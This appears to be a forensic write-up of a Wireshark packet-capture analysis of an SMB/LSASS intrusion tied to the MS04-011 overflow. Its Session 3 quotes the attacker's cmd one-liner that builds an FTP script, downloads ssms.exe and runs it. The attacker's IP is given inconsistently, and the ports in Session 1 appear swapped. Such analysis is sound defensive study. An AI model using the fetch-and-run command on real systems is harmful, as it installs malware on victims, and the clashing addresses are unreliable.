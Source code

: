 # Intermediate cases

Some unknown cases

## Table of contents

- [Intermediate cases](#intermediate-cases)
  - [Table of contents](#table-of-contents)
  - [Attack trace](#attack-trace)
    - [Sumary](#sumary)
    - [Details](#details)
      - [Session 1](#session-1)
      - [Session 2](#session-2)
      - [Session 3](#session-3)
      - [Session 4](#session-4)
      - [Session 5](#session-5)

---

## Attack trace

### Sumary

- Session 1: `89.114.205.102:1821` attack to `192.150.11.111:445` to check if SMB service is running (for file transfering) 
- Session 2: null attack to call `DsRoleUpgradeDownlevelServer` function 
- Session 3: send payload to download file ssms.exe through FTP
- Session 4: download file through FTP
- Session 5: finish download malware on victim

### Details

#### Session 1

Check at Statistics->Endpoints, and there are 2 hosts: `98.114.205.102` and `192.150.11.111` (attacker `98.114.205.102:445` (SMB) and victim `192.150.11.111:1821` (TCP/UDP)). Note: using [this tool](https://www.adminsub.net/tcp-udp-port-finder/) to check port

![](https://i.ibb.co/vwqNRx8/Screenshot-2023-03-24-131504.png)

Then, using [this tool](https://www.whatismyip.com/ip-address-lookup/) to find location of above addresses:

![](https://i.ibb.co/tqSV26v/Screenshot-2023-03-24-131815.png)

![](https://i.ibb.co/fHStvPs/Screenshot-2023-03-24-131923.png)

Check at Statistics->Capture file properties to find Timespan, Average Packages

![](https://i.ibb.co/9cxLXyg/Screenshot-2023-03-24-132536.png)

Using filter in wireshark `tcp.flags==0x02` to find tcp dump (The hexadecimal number 0x02 the TCP SYN flag is present in the TCP header)

![](https://i.ibb.co/6vhF3KC/Screenshot-2023-03-24-132059.png)

#### Session 2

Using `TCP flow` (tcp.stream eq 1) to view what happen

![](https://i.ibb.co/98SKBGj/Screenshot-2023-04-03-100119.png)

Some noticeable keywords in above photo:
- `Windows for Workgroups 3.1` is extension for Windows 3.1, built-in file transfering of SMB, more at [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/8df1a501-ce4e-4287-8848-5f1d4733e280)
- NTLMSSP is a binary messaging protocol used by the Microsoft Security Support Provider Interface (SSPI) to facilitate NTLM challenge-response authentication, details at [here](https://learn.microsoft.com/vi-vn/windows/win32/com/ntlmssp)
- `\PIPE\lsass` is the local security authentication server, and it generates the
process responsible for authenticating users for the Winlogon service

Using find packet with above keyword to view details from 14th packet

![](https://i.ibb.co/Pcz746T/Screenshot-2023-04-03-133750.png)

- 14th - 18th: NTLM user authentication with user: \
- 19th - 23th: send requests to connect `$IPC (Inter Process Communication)` with path `\\\192.150.11.111\ipc\$` through `\lsarpc (Remote Procedure Call)`
  
![](https://i.ibb.co/YZ2M1rv/Screenshot-2023-04-03-135949.png)

- 25th - 33rd: using DSSETUP V0.0 (32bit NDR) to call function `DsRoleUpgradeDownlevelServer`. Find details in the Internet, it seems [`MS04–011 Microsoft LSASS Service DsRolerUpgradeDownlevelServer Overflow`](https://www.exploit-db.com/exploits/16368)

#### Session 3

Continue in tcp stream (tcp.stream eq 2), attacker send payload which have victim download file ssms.exe through FTP

```sh
  echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe
  ssms.exe
``` 

![](https://i.ibb.co/P4Q1TSV/Screenshot-2023-04-04-102430.png)


#### Session 4

Continute session 3 (tcp.stream eq 3), attacker connect to victim then download file

![](https://i.ibb.co/hsCFdJM/Screenshot-2023-04-04-103048.png)

#### Session 5

Continue session 4 (tcp.stream eq 4), this show content inside `ssms.exe` file, then save as file and upload this file to [VirusTotal](https://www.virustotal.com/gui/file/b14ccb3786af7553f7c251623499a7fe67974dde69d3dffd65733871cddf6b6d) for quick review

![](https://i.ibb.co/bBYbx6n/Screenshot-2023-04-04-103436.png)

![](https://i.ibb.co/qFytrbb/Screenshot-2023-04-04-104909.png)









